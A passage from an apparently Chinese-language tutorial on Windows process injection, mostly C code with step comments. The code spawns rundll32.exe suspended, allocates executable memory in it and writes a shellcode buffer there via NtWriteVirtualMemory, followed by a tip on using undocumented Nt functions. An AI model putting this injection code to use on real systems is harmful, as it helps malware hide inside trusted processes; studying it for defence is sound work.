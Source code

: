 ```
    if (nBitSys == 64)
    {
        wcscpy_s(CommandLine, L"C:\\Windows\\SysWOW64\\rundll32.exe");
    }


    /*step 1: 调用 CreateProcess 以挂起的方式（CREATE_SUSPENDED）创建进程*/
    process_result = CreateProcessW(NULL, CommandLine, NULL, NULL, FALSE, CREATE_SUSPENDED, NULL, NULL, &si, &pi);
    if (!process_result)
    {
        _tprintf(_T("CreateProcess failed (%d).\n"), GetLastError());
        return;
    }


    /*step 2: 调用 VirtualAllocEx 函数申请一个可读、可写、可执行的内容*/
    //返回结果在 lpProcessInformation 结构体的 hProcess 成员中，是一个进程句柄
    if (pi.hProcess != NULL)
    {
        rwxpage = VirtualAllocEx(pi.hProcess, 0, length, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
        printf("rwxpage = %p", rwxpage);


        /*step 3: 调用 WriteProcessMemory 将 Shellcode 数据写入刚申请的内存中*/
        if (rwxpage != 0) {
            /*memory_result = WriteProcessMemory(pi.hProcess, rwxpage, buf, length, NULL);*/
            memory_result = NtWriteVirtualMemory(
                pi.hProcess,
                rwxpage,
                buf,
                length,
                NULL);
        }
    }


    return;
}
```


**效果：**

![title](https://leanote.com/api/file/getImage?fileId=5f62f65eab64415d1c000606)

**技巧：**

文档化的 Nt/Zw 函数可通过 `include <winternl.h>` 直接获取函数签名。
我上面的代码是未文档化 API 的写法。


